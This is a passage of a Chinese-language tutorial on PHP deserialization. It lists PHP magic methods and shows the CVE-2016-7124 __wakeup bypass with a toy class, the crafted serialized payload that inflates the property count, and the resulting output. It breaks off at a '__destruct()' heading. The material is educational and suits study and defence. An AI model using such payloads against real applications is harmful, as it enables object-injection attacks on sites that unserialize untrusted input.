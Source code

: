 ```
__wakeup()//执行unserialize()时，先会调用这个函数，执行后不会执行__construct()函数
 
__toString()//类被当成字符串时的回应方法
 
__invoke()//调用函数的方式调用一个对象时的回应方法
 
__set_state()//调用var_export()导出类时，此静态方法会被调用。
 
__clone()//当对象复制完成时调用
 
__autoload()//尝试加载未定义的类
 
__debugInfo()//打印所需调试信息
```

## 各种绕过姿势

### 绕过`__wakeup`(CVE-2016-7124)

wakeup()魔术方法在执行`unserialize()`时，会优先调用这个函数，而不会执行`construct()` 函数。

绕过方法：序列化字符串中表示对象属性个数的值大于真实的属性个数时会跳过`__wakeup`的执行。

如:
```php
<?php
class test{
    public $a;
    public function __construct(){
        $this->a = 'abc';
    }
    public function __wakeup(){
        $this->a='def';
    }
    public function  __destruct(){
        echo $this->a;
    }
}
```

其序列化后为 `O:4:"test":1:{s:1:"a";s:3:"abc";}`

执行反序列化 `unserialize('O:4:"test":1:{s:1:"a";s:3:"abc";}');`

得到结果为 def ，发现优先执行了 `__wakeup()` ,并没有执行 `__construct()`。

当我们把对象的属性个数改大时，改成 `O:4:"test":2:{s:1:"a";s:3:"abc";}` ,由原来的1个属性改为2个，
但test 类真实的属性只有一个，这样就能绕过 `__wakeup()` 按没有这个魔术方法一样去执行其他相应的魔术方法。

执行反序列化 `unserialize('O:4:"test":2:{s:1:"a";s:3:"abc";}');`

得到结果为 abc , 发现优先执行了 `__construct()` ,并没有执行 `__wakeup()`。

### `__destruct()`相关
